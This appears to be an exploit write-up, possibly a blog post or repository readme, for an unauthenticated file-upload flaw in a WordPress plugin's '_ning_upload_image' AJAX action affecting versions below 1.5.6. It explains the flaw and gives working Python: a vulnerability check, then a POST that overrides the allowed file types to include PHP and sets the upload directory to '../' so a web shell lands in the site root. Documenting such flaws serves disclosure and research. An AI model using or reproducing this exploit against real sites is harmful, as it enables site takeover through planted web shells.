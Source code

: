 ### Exploit

In developing our python exploit, our first task is to determine how we can call `_ning_upload_image` as an unauthenticated user. Thanks to our `wp_ajax_nopriv_` hook calling the relevant AJAX action is as simple as: `<base url>/admin-ajax.php?action=_ning_upload_image`

For versions < 1.5.6 of the software the following string will be returned when no valid post data is provided: `no files found.` This string can be used to check if the target host is vulnerable to exploitation.
```
def vuln_check(uri):
	response = requests.get(uri)
	raw = response.text

	if ("no files found" in raw):
		return True;
	else:
		return False;
...
```

Next the post parameters: `allowed_file_types` and `upload` that represent the file whitelist and upload directory respectively need to be sent as a POST request as well as our file data.

The file upload directory is relative to the current php context, for our exploit this is admin-ajax.php which is located in `<wp base>/wp-admin` and therefore to upload our shell to the website root directory we supply the following JSON data to the `upload` POST parameter: `{"dir" : "../"}` . This is then converted into a string using `json.dumps`

Determining whether our shell has been successfully uploaded is also important and the response received following a successful invocation of the `_ning_upload_image` action can be used to determine this.

It was noted that upon file upload success the following string formed part of the response text: `"success":true` and this is what was used to determine  a successful state.

```
	files = {'files[]' : open(file_path)}
	data = {
	"allowed_file_types" : "php,jpg,jpeg",
	"upload" : json.dumps({"dir" : "../"})
	}
	
	print("Uploading Shell...");
	
	response = requests.post(uri, files=files, data=data )
	file_name = path.basename(file_path)
	
	if('"success":true' in response.text):
		print("Shell Uploaded!")
		if(base[-1] != '/'):
			base += '/'
		print(base + file_name)
	else:
		print("Shell Upload Failed")
		sys.exit(1)

```
